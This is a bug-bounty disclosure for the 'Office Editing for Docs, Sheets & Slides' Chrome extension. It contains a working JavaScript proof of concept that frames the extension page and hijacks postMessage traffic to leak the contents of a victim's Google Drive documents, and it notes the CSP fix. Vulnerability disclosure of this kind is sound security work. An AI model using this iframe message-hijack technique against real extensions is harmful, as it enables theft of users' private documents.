 ```yaml
---
title: Office Editing for Docs, Sheets & Slides leak (Awarded $3133.70)
---
```


**URL:** <https://chromewebstore.google.com/detail/office-editing-for-docs-s/gbkeegbaiigmenfmjfclcdgdpimamgkj>

**PoC video:** <https://youtu.be/r0ajiPGLh0M>

### Details

- **Replace `msofficeDocId` with the doc ID of a `pptx`/`docx` file you uploaded to google drive**
- It does not need to be shared with anyone.
- 3rd party cookies are required to be enabled however with browser heuristics this can be automatic for example it gets allowed if you open and interact with a popup on Chrome.

```js
let msofficeDocId = '1DuGHZhNFjJFCtOXVkA91t5o92Y3BRJ1u';

setInterval(() => {
  if (window.f) document.body.removeChild(f);
  f = document.createElement('iframe');
  f.width = 500;
  f.height = 500;
  f.src =
    'chrome-extension://gbkeegbaiigmenfmjfclcdgdpimamgkj/views/app.html?state=%7B"ids":%5B"' +
    msofficeDocId +
    '"%5D,"action":"open","resourceKeys":%7B%7D%7D';

  document.body.appendChild(f);

  let loop = setInterval(() => {
    // Wait for iframes to load
    if (f.contentWindow.length !== 2) return;
    clearInterval(loop);

    setTimeout(() => {
      f.contentWindow[0].location = 'about:blank';
      let loop2 = setInterval(() => {
        try {
          // Monitor for leaks via onmessage
          f.contentWindow[0].onmessage = (e) => {
            console.log('Data leaked :) ' + JSON.stringify(e.data));
          };
          clearInterval(loop2);
        } catch {}
      }, 0);
      // Wait a bit for the sandbox to request document content
    }, 600);
  }, 0);

  // Retry ever 2 seconds
}, 2000);
```

This issue was fixed by adding `frame-ancestors 'self'` to the `extension_pages` content security policy.

### Attack scenario

Attacker websites can leak data from a user's google drive if they know the doc id.
